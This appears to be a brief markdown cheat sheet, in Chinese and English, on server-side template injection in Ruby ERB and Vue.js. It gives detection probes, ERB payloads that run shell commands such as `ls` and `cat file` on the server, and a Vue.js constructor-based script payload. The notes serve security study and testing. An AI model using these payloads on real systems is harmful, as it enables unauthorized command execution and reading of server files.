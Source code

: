 # SSTI
模板注入，別以為用框架就能規避安全問題！  
*  [Ruby erb injection](#ruby-erb-injection)  
   *  [Find](#find)
   *  [Exploit](#exploit)   
*  [Vue.js](#vuejs-template-injection)  
   *  [Exploit](#exploit)  
   
# Ruby erb injection
The erb(ruby-based) template injection.  

## Find
模板注入通常會用**代碼執行與否**來判定是否存在  
```ruby
// based in ERB documentation
<%= syntax of Ruby statement %>
```
因此，我們可以放入像是```<%=8*8%>```這種payload。若是頁面上的結果變成64，則表示這段代碼有被視為ruby**執行**  
下一步就是Command Injection...

## Exploit
```ruby
// <%= 的意思跟 <?= 一樣，都有echo的意思
<%=`ls`%>                   // 這樣便可以把ls的結果全部顯示出來
<%=`cat file`%>
```
依照情況，在url中可能要進行urlencode

# Vuejs template injection
```{{ 執行代碼 }}```  
判定是否存在模板注入  
## Exploit
```js
{{ constructor.constructor("alert('xss')")() }}
```
[Reference](https://github.com/dotboris/vuejs-serverside-template-xss)
